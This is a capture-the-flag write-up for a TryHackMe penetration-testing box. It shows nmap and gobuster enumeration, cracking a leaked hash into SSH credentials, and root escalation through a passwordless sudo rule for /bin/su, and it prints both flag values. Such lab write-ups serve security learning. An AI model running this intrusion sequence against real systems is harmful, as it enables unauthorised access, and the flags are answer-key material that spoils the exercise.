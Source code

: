 # CC:Pen-Testing
Solve the final exam of the CC:Pen-Testing box in TryHackMe.  
The goal is to exploit the target machine and get the content of user.txt and root.txt.

## Writeup
ip of the target host: 10.10.193.79

Reconnaissance: scan the target machine to enumerate ports and services.
```shell
nmap -sV 10.10.193.79
```
It gives:
```shell
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Meanwhile run gobuster to find hidden directories.
```shell
gobuster dir -u http://10.10.193.79/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 64
```
We found the hidden diretory /secret. The url http://10.10.193.79/secret/ yield a blank page.  
We can bruteforce the directory /secret to find hidden files:
```shell
gobuster dir -u http://10.10.193.79/secret/ -w /usr/share/dirbus ter/wordlists/directory-list-2.3-medium.txt -t 64 -x txt,php,html,css,js
```
We managed to find the file secret.txt, containing a username and a hash:  
nyan:046385855FC9580393853D8E81F240B66FE9A7B8

Now we can try to break the hash to find the password of nyan. Hopefully is the same password used to login through ssh.  
In order to break the hash we can use the CrackStation (https://crackstation.net/).  
Decrypting the hash we get nyan.

We can now use the retrieved credentials to try to get access to the machine using ssh:
```shell
ssh nyan@10.10.193.79
```
It worked !

```shell
nyan@ubuntu:~$ ls
user.txt
nyan@ubuntu:~$ cat user.txt 
supernootnoot
```
The content of user.txt is supernootnoot.

Final step is to find the file root.txt. The name of the file suggests that the flag is only available under root.  
We download LinEnum (https://github.com/rebootuser/LinEnum), useful tool which scans the system to find ways to escalate the privileges. In the scan report, we see the following:
```shell
[+] We can sudo without supplying a password!                                                                     
Matching Defaults entries for nyan on ubuntu:                                                                     
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/
bin                                                                                                               
                                                                                                                  
User nyan may run the following commands on ubuntu:                                                               
    (root) NOPASSWD: /bin/su
```

Therefore we can become root using: 
```shell
sudo /bin/su
``` 

In the home directory of root we can find the root.txt file.
```shell
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt 
congratulations!!!!
```

The content of root.txt is congratulations!!!



